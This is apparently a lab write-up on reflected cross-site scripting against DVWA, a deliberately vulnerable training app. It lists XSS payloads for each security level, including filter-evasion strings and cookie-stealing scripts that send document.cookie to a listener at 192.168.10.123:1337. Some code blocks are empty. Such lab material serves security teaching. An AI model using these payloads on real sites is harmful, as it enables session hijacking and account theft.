





Reflected XSS is an injection attack where malicious scripts are sent to a vulnerable web server (often via URLs), and the server immediately includes (reflects) those scripts unsanitized in the HTML response back to the victim's browser, which then executes them. It relies on the server reflecting user input directly into the response page.

Examples:
```
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```
```
<SCRIPT>alert("XSS")</SCRIPT>"\>
```
```
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>
```
```

```
```
</img>
```

DVWA has 3 settings to show different levels of security. Below are the bypasses for each level.

Low:

```
<script>alert(document.cookie)</script>
```



```
192.168.10.123/dvwa/vulnerabilities/xss_r/?name=<script>window.location='http://192.168.10.123:1337/?cookie=' + document.cookie</script>
```



Medium:

The developer has tried to add a simple pattern matching to remove any references to "script, to disable any JavaScript.

```

```


```
<sc<script>ript>window.location='http://192.168.10.123:1337/?cookie=' + document.cookie</script>
```




High:

```
 
```	
This didn't show cookie.



References:

https://owasp.org/www-community/attacks/xss/ 

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

https://en.wikipedia.org/wiki/Cross-site_scripting

https://www.cgisecurity.com/xss-faq.html

https://www.scriptalert1.com/

https://portswigger.net/web-security/cross-site-scripting/reflected